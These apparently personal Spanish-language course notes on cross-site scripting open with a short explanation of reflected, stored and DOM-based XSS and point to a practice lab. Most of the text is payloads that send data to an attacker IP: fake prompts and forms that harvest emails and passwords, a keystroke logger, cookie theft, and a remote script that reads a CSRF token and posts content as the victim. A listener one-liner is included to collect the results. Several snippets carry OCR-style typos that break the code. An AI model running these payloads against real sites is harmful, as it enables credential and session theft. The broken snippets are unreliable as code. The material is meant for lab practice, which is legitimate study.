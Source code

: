 ----------
Tags: #xss

--------------
Una vulnerabilidad **XSS** (**Cross-Site Scripting**) es un tipo de vulnerabilidad de seguridad informática que permite a un atacante ejecutar código malicioso en la página web de un usuario sin su conocimiento o consentimiento. Esta vulnerabilidad permite al atacante robar información personal, como nombres de usuario, contraseñas y otros datos confidenciales.

En esencia, un ataque XSS implica la inserción de código malicioso en una página web vulnerable, que luego se ejecuta en el navegador del usuario que accede a dicha página. El código malicioso puede ser cualquier cosa, desde scripts que redirigen al usuario a otra página, hasta secuencias de comandos que registran pulsaciones de teclas o datos de formularios y los envían a un servidor remoto.

Existen varios tipos de vulnerabilidades XSS, incluyendo las siguientes:
- **Reflejado** (**Reflected**): Este tipo de XSS se produce cuando los datos proporcionados por el usuario **se reflejan en la respuesta** HTTP sin ser verificados adecuadamente. Esto permite a un atacante inyectar código malicioso en la respuesta, que luego se ejecuta en el navegador del usuario.
- **Almacenado** (**Stored**): Este tipo de XSS se produce cuando un atacante **es capaz de almacenar código malicioso** en una base de datos o en el servidor web que aloja una página web vulnerable. Este código se ejecuta cada vez que se carga la página.
- **DOM-Based**: Este tipo de XSS se produce cuando el código malicioso **se ejecuta en el navegador del usuario a través del DOM** (Modelo de Objetos del Documento). Esto se produce cuando el código JavaScript en una página web modifica el DOM en una forma que es vulnerable a la inyección de código malicioso.

Los ataques XSS pueden tener graves consecuencias para las empresas y los usuarios individuales. Por esta razón, es esencial que los desarrolladores web implementen medidas de seguridad adecuadas para prevenir vulnerabilidades XSS. Estas medidas pueden incluir la validación de datos de entrada, la eliminación de código HTML peligroso, y la limitación de los permisos de JavaScript en el navegador del usuario.

A continuación, se proporciona el proyecto de Github correspondiente al laboratorio que nos estaremos montando para poner en práctica la vulnerabilidad XSS:
- **secDevLabs**: [https://github.com/globocom/secDevLabs](https://github.com/globocom/secDevLabs)
--------------
## XSS básico

Podemos inyectar código JS para poder hacer distintos tipos de ataques:
```html
<script>alert("XSS")</script>
```

## Pedir correo a la víctima con alert

Podemos escuchar con un servidor en la máquina atacante para ver el email que ha puesto el usuario.
```html
<script>
	var email = prompt( "Por favor, introduce tu correo electrónico para visualizar el post", "example@example.com");
	if (email == null || email == ""){
		alert "Es necesario introducir un correo válido para visualizar el post");
	} else {
		fetch("http://192.168.111.45/?email=" + email);
	}
</script>
```

## Pedir correo y contraseña sin alert

```html
<div id="formContainer"></div>
<script> var email;
	var password;
	var form = '<form>' + 
		'Email: <input type="email" id="email" required>' + 'Contraseña: <input type="password" id="password" required>' + '<input type="button" onclick="submitForm0" value="Submit">' 
	+ '</form>';
	
	document.getElementByld("formContainer").innerHTML=form;
	
	function submitForm0 {
		email = document.qetElementByld("email"). value;
		password = document.getElementByld("password").value;
		fetch("http://192.168.111.45/?email=" + email + "&password=" + password);
	}
</script>
```
Podemos estar en escucha por el puerto 80 para capturar el email y password.
## Keylogger

```html
<script>
	var k = ""
	document.onkeypress = function(e){
		e = e || window. event;
		k += e.key;
		var i = new Image() ;
		i.src = "http://192.168.111.45/" + k;
	};
</script>
```
Escuchando en la direccion ip 192.168.111.45 en el puerto 80. Con el siguiente comando:
```bash
python3 -m http.server 80 2>&1 | grep -oP 'GET /\K[^. *\s]+'
```

## Redirigir a un usuario

```html
<script>
	window.location.href = "https://hack4u.io";
</script>
```

## Capturar cookies de sesión

Si *httponly* está habilitado, deberemos desactivarlo para poder capturar la cookie.
```html
<script>
	var request = new XMLHttpRequest();
	request.open('GET','http://192.168.111.45/?cookie=' + document.cookie);
	request.send();
</script>
```
Escuchando en el puerto ip en el puerto 80.

## Utilizar csrf_tocken con POST

Si conseguimos escribir esto en una publicación, esta se actualizará  con el cambio de powned.js
```html
<script src=""http://192.168.111.45/powned.js"></script>
```

Powned.js:
```js
var domain = "http://localhost:10007/newgossip"
var req1 = new XMLHttpRequest();
req1.open('GET', domain, false);
req1.withCredentials = true; //En caso de que sea un csrf_token dinamico
req1.send();

var response = req1. responseText;
var parser = new DOMParser();
var doc = parser .parseFromString( response, 'text/html');
var token = doc. getElementsByName("_csrf_token")[0]. value;

var req2 = new XMLHttpRequest);
var data = "title=Mi%20jefe%20es%20un%20cabrón&subtitle=JEFE%20CABRONAZO&text=Odio %20a%20mi%20equipo&_csrf_token=" + token;

req2.open('POST', 'http://localhost:10007/newgossip', false);
red2.withcredentials = true;
req2. setRequestHeader('Content-Type','application/x-www-form-urlencoded');
req2. send(data);
```

------------------
# Practicar
- [MyExpense: 1](https://www.vulnhub.com/entry/myexpense-1,405/)


